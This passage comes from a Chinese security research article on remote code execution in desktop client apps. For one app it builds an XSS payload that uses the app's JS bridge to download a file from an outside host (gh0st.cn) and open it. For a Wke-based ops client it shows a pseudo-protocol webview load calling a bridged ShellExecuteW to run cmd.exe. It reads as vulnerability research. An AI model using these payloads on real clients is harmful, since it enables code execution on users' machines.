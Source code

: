 我们可以这样拼接，就有了下载文件的目录信息了：  
```
ZxDesktop.require("System").userDataPath + "/null/test.txt"
```  
  
当我们满足所有条件后，就可以构造完整的攻击代码了：1.下载文件：  
```
var a = ZxDesktop;

var b = a.require("File");

b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```  
  
2.拼接文件路径，打开文件：  
```
b.open(a.require("System").userDataPath + "/null/test.txt");
```  
  
3.最终Exploit：  
```
"><svg onload='var a = ZxDesktop;var b = a.require("File");b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});b.open(a.require("System").dbPath + "/null/test.txt");'>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgmVxBTGZ1mJqHBVfaJH8PIDzUkpBYwQErhHEYSSxHond54SKybHSytg/640?wx_fmt=png&from=appmsg "")  
##### 某运维平台客户端  
  
在某运维平台客户端中，我们发现可以通过伪协议链接（xxx://webview/?url=http://xxxx）来达到端内任意页面加载，这也就表示我们可以执行任意JS代码。  
  
根据加载的DLL文件得知，其所依赖的前端页面渲染是开源项目Wke。  
  
在源代码wke/jsBind.cpp  
中，发现wkeJSBindFunction方法提供了JSBridge的功能，将JavaScript函数绑定到C++中一个本地函数。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgnwqjsX8gthslarIQFZGWUWKPqCwRbQDFKCozlMRgkTYdPyIOgSUsJw/640?wx_fmt=png&from=appmsg "")  
  
基于IDA分析得知，目标应用使用了该方法将JS函数与C++函数进行了绑定。图下图所示，其将C++某个函数地址，与名为callprogram的JavaScript函数进行绑定，我们可以直接在JS代码中调用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgZTEpFSsibwG4MZT4ZqmU24tOZbRNbwsHp4UNLJutOX0hbQOwbeVb4ww/640?wx_fmt=png&from=appmsg "")  
  
跟进对应的C++函数，我们发现它会通过wkeJSParam获取参数，再通过JSToTempStringW获取字符串形式的参数值，最终将两个参数带入ShellExecuteW函数执行。即最终执行的代码为：ShellExecuteW(0, "open", 参数1, 参数2, 0, 1)。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgaia99oRuOMRqTQaqY94ZZZWVyFIEzA6ywzhNIrP99f4I12ibFn4XSfSw/640?wx_fmt=png&from=appmsg "")  
  
因此我们可以构建如下的Exploit代码，并通过伪协议的方式使目标可以打开包含Exp代码的网页：  
```
<script>callprogram("C:/Windows/System32/cmd.exe", "/c calc");</script>
```  
#### 传统类客户端  
  
传统类客户端，我的定义是基于C/C++写的一些传统应用，如VPN客户端、视频软件、远程控制软件等偏生活、日常类的应用。  
##### 某远程服务平台客户端  
  